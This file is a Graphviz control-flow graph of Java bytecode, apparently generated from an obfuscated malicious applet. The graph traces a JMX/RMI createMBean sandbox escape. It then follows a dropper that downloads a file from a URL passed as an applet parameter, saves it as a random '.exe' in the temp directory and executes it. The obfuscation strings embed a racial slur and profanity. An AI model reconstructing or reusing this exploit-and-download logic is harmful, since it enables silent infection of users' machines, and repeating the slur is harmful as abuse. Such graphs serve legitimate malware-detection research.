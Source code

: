digraph "" {
    "r0 := @this: wrsvwwfsfwhazilh"
    "load.r r0"
    "r0 := @this: wrsvwwfsfwhazilh"->"load.r r0";
    "virtualinvoke <wrsvwwfsfwhazilh: java.rmi.MarshalledObject pepe()>"
    "load.r r0"->"virtualinvoke <wrsvwwfsfwhazilh: java.rmi.MarshalledObject pepe()>";
    "store.r $r254"
    "virtualinvoke <wrsvwwfsfwhazilh: java.rmi.MarshalledObject pepe()>"->"store.r $r254";
    "store.r $r254"->"load.r r0";
    "specialinvoke <wrsvwwfsfwhazilh: javax.management.remote.rmi.RMIServerImpl getRMIServerImpl()>"
    "load.r r0"->"specialinvoke <wrsvwwfsfwhazilh: javax.management.remote.rmi.RMIServerImpl getRMIServerImpl()>";
    "store.r r51"
    "specialinvoke <wrsvwwfsfwhazilh: javax.management.remote.rmi.RMIServerImpl getRMIServerImpl()>"->"store.r r51";
    "load.r r51"
    "store.r r51"->"load.r r51";
    "load.r r51"->"load.r r0";
    "specialinvoke <wrsvwwfsfwhazilh: javax.management.MBeanServer getMbeanServer()>"
    "load.r r0"->"specialinvoke <wrsvwwfsfwhazilh: javax.management.MBeanServer getMbeanServer()>";
    "virtualinvoke <javax.management.remote.rmi.RMIServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <wrsvwwfsfwhazilh: javax.management.MBeanServer getMbeanServer()>"->"virtualinvoke <javax.management.remote.rmi.RMIServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "dup1.r"
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r51";
    "push \"SHAFFLEISANIGGAmSHAFFLEISANIGGAeSHAFFLEISANIGGAtSHAFFLEISANIGGAaSHAFFLEISANIGGAsSHAFFLEISANIGGApSHAFFLEISANIGGAlSHAFFLEISANIGGAoSHAFFLEISANIGGAiSHAFFLEISANIGGAtSHAFFLEISANIGGA\""
    "load.r r51"->"push \"SHAFFLEISANIGGAmSHAFFLEISANIGGAeSHAFFLEISANIGGAtSHAFFLEISANIGGAaSHAFFLEISANIGGAsSHAFFLEISANIGGApSHAFFLEISANIGGAlSHAFFLEISANIGGAoSHAFFLEISANIGGAiSHAFFLEISANIGGAtSHAFFLEISANIGGA\"";
    "push \"SHAFFLEISANIGGA\""
    "push \"SHAFFLEISANIGGAmSHAFFLEISANIGGAeSHAFFLEISANIGGAtSHAFFLEISANIGGAaSHAFFLEISANIGGAsSHAFFLEISANIGGApSHAFFLEISANIGGAlSHAFFLEISANIGGAoSHAFFLEISANIGGAiSHAFFLEISANIGGAtSHAFFLEISANIGGA\""->"push \"SHAFFLEISANIGGA\"";
    "push \"\""
    "push \"SHAFFLEISANIGGA\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push null"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "push \"d3bbd09724b6936399\""
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push \"d3bbd09724b6936399\"";
    "push \"d3bbd09724b6936399\""->"push null";
    "push null"->"push null";
    "load.r $r254"
    "push null"->"load.r $r254";
    "load.r $r254"->"push null";
    "push null"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: javax.management.ObjectInstance createMBean(java.lang.String,javax.management.ObjectName,javax.management.ObjectName,java.rmi.MarshalledObject,java.lang.String[],javax.security.auth.Subject)>"->"store.r $r254";
    "staticget <d3bbd09724b6936399: d3bbd09724b6936399 instance>"
    "store.r $r254"->"staticget <d3bbd09724b6936399: d3bbd09724b6936399 instance>";
    "virtualinvoke <d3bbd09724b6936399: void loadIt()>"
    "staticget <d3bbd09724b6936399: d3bbd09724b6936399 instance>"->"virtualinvoke <d3bbd09724b6936399: void loadIt()>";
    "new java.lang.StringBuilder"
    "virtualinvoke <d3bbd09724b6936399: void loadIt()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "staticinvoke <java.lang.Math: double random()>"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"staticinvoke <java.lang.Math: double random()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>";
    "push \"SHAFFLEISANIGGA.SHAFFLEISANIGGAeSHAFFLEISANIGGAxSHAFFLEISANIGGAeSHAFFLEISANIGGA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"->"push \"SHAFFLEISANIGGA.SHAFFLEISANIGGAeSHAFFLEISANIGGAxSHAFFLEISANIGGAeSHAFFLEISANIGGA\"";
    "push \"SHAFFLEISANIGGA.SHAFFLEISANIGGAeSHAFFLEISANIGGAxSHAFFLEISANIGGAeSHAFFLEISANIGGA\""->"push \"SHAFFLEISANIGGA\"";
    "push \"SHAFFLEISANIGGA\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r254";
    "store.r $r254"->"load.r r0";
    "push \"FUCKAVERZdFUCKAVERZaFUCKAVERZtFUCKAVERZaFUCKAVERZ\""
    "load.r r0"->"push \"FUCKAVERZdFUCKAVERZaFUCKAVERZtFUCKAVERZaFUCKAVERZ\"";
    "push \"FUCKAVERZ\""
    "push \"FUCKAVERZdFUCKAVERZaFUCKAVERZtFUCKAVERZaFUCKAVERZ\""->"push \"FUCKAVERZ\"";
    "push \"FUCKAVERZ\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <wrsvwwfsfwhazilh: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <wrsvwwfsfwhazilh: java.lang.String getParameter(java.lang.String)>";
    "store.r r108"
    "virtualinvoke <wrsvwwfsfwhazilh: java.lang.String getParameter(java.lang.String)>"->"store.r r108";
    "push \"FUCKAVERZjFUCKAVERZaFUCKAVERZvFUCKAVERZaFUCKAVERZ.FUCKAVERZiFUCKAVERZoFUCKAVERZ.FUCKAVERZtFUCKAVERZmFUCKAVERZpFUCKAVERZdFUCKAVERZiFUCKAVERZrFUCKAVERZ\""
    "store.r r108"->"push \"FUCKAVERZjFUCKAVERZaFUCKAVERZvFUCKAVERZaFUCKAVERZ.FUCKAVERZiFUCKAVERZoFUCKAVERZ.FUCKAVERZtFUCKAVERZmFUCKAVERZpFUCKAVERZdFUCKAVERZiFUCKAVERZrFUCKAVERZ\"";
    "push \"FUCKAVERZjFUCKAVERZaFUCKAVERZvFUCKAVERZaFUCKAVERZ.FUCKAVERZiFUCKAVERZoFUCKAVERZ.FUCKAVERZtFUCKAVERZmFUCKAVERZpFUCKAVERZdFUCKAVERZiFUCKAVERZrFUCKAVERZ\""->"push \"FUCKAVERZ\"";
    "push \"FUCKAVERZ\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r0"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r0";
    "new java.net.URL"
    "store.r r0"->"new java.net.URL";
    "new java.net.URL"->"store.r r51";
    "store.r r51"->"load.r r51";
    "load.r r108"
    "load.r r51"->"load.r r108";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r108"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r51";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "load.r r51"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"pop";
    "pop"->"load.r r51";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r r51"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r51";
    "new java.io.FileOutputStream"
    "store.r r51"->"new java.io.FileOutputStream";
    "store.r $r267"
    "new java.io.FileOutputStream"->"store.r $r267";
    "load.r $r267"
    "store.r $r267"->"load.r $r267";
    "load.r $r267"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r254";
    "load.r $r254"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r108";
    "goto load.r r51"
    "store.r r108"->"goto load.r r51";
    "goto load.r r51"->"load.r r51";
    "load.r r51"->"load.r r108";
    "push 0"
    "load.r r108"->"push 0";
    "push 0"->"load.r r108";
    "arraylength"
    "load.r r108"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpne.i load.r $r267"
    "push -1"->"ifcmpne.i load.r $r267";
    "ifcmpne.i load.r $r267"->"load.r r51";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r51"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r267";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r267"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r254";
    "load.r $r254"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"goto return";
    "ifcmpne.i load.r $r267"->"load.r $r267";
    "load.r $r267"->"load.r r108";
    "load.r r108"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r0";
}
